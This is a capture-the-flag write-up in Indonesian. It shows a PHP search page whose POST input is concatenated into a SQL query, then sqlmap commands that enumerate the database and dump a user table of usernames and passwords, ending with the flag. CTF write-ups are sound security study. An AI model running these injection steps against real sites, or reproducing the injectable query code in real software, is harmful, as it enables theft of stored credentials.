


# Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br>
<br>
berikut berupa source code web tsb<br>
```
<html> 
<head> 

</head> 
<body> 
<h1>OTICtf</h1> 
<div id="content"> 

<?php

$servername = "localhost";
$user = "<censored>";
$pass = "<censored>";
$dbname = "sql";

// Create connection
$link = new mysqli($servername, $user, $pass, $dbname);
// Check connection
if ($link->connect_error) {
    die("Connection failed: " . $link->connect_error);
}

/* 
CREATE TABLE `post` (
  `ID` INT(11),  
  `Title` varchar(100), 
  `Text` text,
  `Time`datetime on update CURRENT_TIMESTAMP
);

CREATE TABLE `user` (
  `ID` INT,  
  `username` varchar(10), 
  `password` varchar(60) 
);

*/ 

if(array_key_exists("search", $_REQUEST)) {
        
    $search=$_REQUEST["search"];

    $query = "SELECT * FROM post WHERE Title LIKE \"%".$search."%\" or Text LIKE  \"%".$search."%\"";  
    
    $res = $link->query($query);

    if ($res->num_rows > 0) {
        echo "keyword found";

    } else {
        echo "keyword not found";
    }
    $link->close(); 
}else{
?>
<form action="index.php" method="POST">
Search:<input name="search"><br>
<input type="submit" value="search" />
</form>
<div id="viewsource"><a href="index-source.txt">View sourcecode</a></div>

<?php
$query = "SELECT * FROM post ";
$res = $link->query($query);
echo "<br>";
if ($res->num_rows > 0) {
    // output data of each row
    while($row = $res->fetch_assoc()) {
        echo "<h2>" . $row["Title"]. "</h2>" ;
        echo "<p>" . $row["Text"]. "</p>" ;
        }
}else{
        echo "0 result";
    }

} 
?>
 
</div> 
</body> 
</html> 
```
<br>
diketahui bahwa terdapat celah sqli  pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind sql Injection dengan bantuan sqlmap <br>

``` sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ``` <br>

didapat sebuah database bernama `sql`, kita coba temukan tabelnya<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ``` <br>

didapat sebuah tabel 'user', coba cek isinya terlebih dahulu.<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user ``` <br>


didapat hal yang mencurigakan yaitu username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**
